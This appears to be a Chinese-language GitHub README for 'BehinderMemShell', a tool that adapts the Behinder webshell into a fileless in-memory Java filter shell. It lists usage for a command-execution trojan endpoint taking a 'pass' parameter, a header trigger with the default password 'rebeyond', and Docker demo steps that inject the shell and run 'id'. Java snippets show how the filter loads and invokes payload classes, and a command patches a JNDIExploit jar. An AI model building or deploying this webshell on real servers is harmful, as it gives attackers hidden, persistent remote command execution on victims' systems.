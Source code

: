 # BehinderMemShell
研究將冰蠍修改為內存馬方式執行。

* Check MemShell
  * XXXXX?type=check
* 一句話木馬
  * XXXXX?type=basic&pass=[cmd]
* 冰蠍
  * 任意路徑
  * Header中加入 `X-Options-Ai: XXXXX`
  * 密碼 rebeyond

# Update
* 2022/06/11
  * 支援 SpringMemshell 的冰蠍功能

# Demo
* docker build memshell . --no-cache
* docker run -it memshell
* 訪問 http://172.17.0.2:8080/inject.jsp 觸發注入 MemShell
* 訪問 http://172.17.0.2:8080/inject.jsp?type=basic&pass=id 檢查是否執行網馬
* 用冰蠍連接 MemShell

# 解析

冰蠍的運作原理是將 Payload 中的 Class 透過 ClassLoader 的 defineClass 函式，將 Bytes 還原回 Class，Payload 的 Class 入口函式是 equals，內容如下：
```
public boolean equals(Object obj) {
	PageContext page = (PageContext)obj;
	this.Session = page.getSession();
	this.Response = page.getResponse();
	this.Request = page.getRequest();
	...
}
```

obj 進入 equals 後會被轉換為 PageContext，進而獲取 Request、Response 及 Session，doFilter 函式中可以獲取 Request、Response，Session 則可以透過 Request 獲得，修改後的 MemShell 程式如下：
```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
	...
	HashMap<Object, Object> pageContext = new HashMap<>();
	pageContext.put("request", servletRequest);
	pageContext.put("response", servletResponse);
	pageContext.put("session", ((HttpServletRequest)servletRequest).getSession());
	...
	Method targetMethod = evilClass.getDeclaredMethod("equals", new Class[] { HashMap.class });
	targetMethod.invoke(evilClass.newInstance(), new Object[] { pageContext });
	...
}
```

因冰蠍接收端生成 Payload 的 Class入口函示仍為 equals(Object obj)，而非我們修改過的 equals(HashMap obj)，所以會在 invoke 時產生錯誤，所以接收端也需要進行修改，冰蠍3.0後的版本在 net.rebeyond.behinder.payload.java 下的程式皆須修改，將 equals 函式修改如下：
```
public boolean equals(HashMap obj) {
	this.Session = (HttpSession)obj.get("session");
	this.Response = (ServletResponse)obj.get("response");
	this.Request = (ServletRequest)obj.get("request");
	...
}
```

# Some Notes
* 更新 jar 包中的 class
  * `jar -uvf JNDIExploit.jar com\feihong\ldap\template\DynamicFilterTemplate.class`

# Reference
* [JNDIExploit](https://github.com/Jeromeyoung/JNDIExploit-1)
* [冰蝎改造之适配基于tomcat Filter的无文件webshell](https://mp.weixin.qq.com/s/n1wrjep4FVtBkOxLouAYfQ)
* [利用shiro反序列化注入冰蝎内存马](https://xz.aliyun.com/t/10696)
* [告别脚本小子系列丨JAVA安全(4)——ClassLoader机制与冰蝎Webshell分析](https://www.freebuf.com/articles/network/323994.html)
